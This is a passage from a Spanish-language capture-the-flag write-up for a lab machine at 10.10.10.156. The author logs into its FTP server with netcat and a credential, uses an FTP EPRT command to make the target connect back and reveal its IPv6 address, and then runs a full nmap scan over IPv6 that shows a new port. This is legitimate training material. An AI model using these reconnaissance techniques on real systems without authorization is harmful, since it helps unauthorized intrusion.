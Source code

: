 Me conecto pero por ```netcat```

```null
nc 10.10.10.156 21
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 1 of 500 allowed.
220-Local time is now 09:39. Server port: 21.
220-This is a private system - No anonymous login
220-IPv6 connections are also welcome on this server.
220 You will be disconnected after 15 minutes of inactivity.
USER 4N9UwddeJHbikghioKl0WNYmMWVfzHVM
331 User 4N9UwddeJHbikghioKl0WNYmMWVfzHVM OK. Password required
PASS 4N9UwddeJHbikghioKl0WNYmMWVfzHVM
```

Pruebo a conectarme a mi equipo por IPv6 a través del FTP, ya que en caso de que reciba la conexión, podré obtener la IPv6 de la máquina víctima

```null
EPRT |2|dead:beef:4::1000|8000|
200-FXP transfer: from fe80::2faf:a6c3:ea90:a312%192 to dead:beef:4::1000%160
200 PORT command successful
LIST
150 Connecting to port 8000
226-Options: -l 
226 0 matches totall
```

```null
nc -nlvp 8000
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from dead:beef::57a:71c:23:77a.
Ncat: Connection from dead:beef::57a:71c:23:77a:51126.
```

Realizo otro escaneo pero por IPv6

```null
nmap -p- --open --min-rate 5000 -n -Pn -sS -6 dead:beef::57a:71c:23:77a -oG openportsipv6
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 14:50 GMT
Nmap scan report for dead:beef::57a:71c:23:77a
Host is up (0.070s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8730/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.83 seconds
```

Tengo alcance a un nuevo puerto
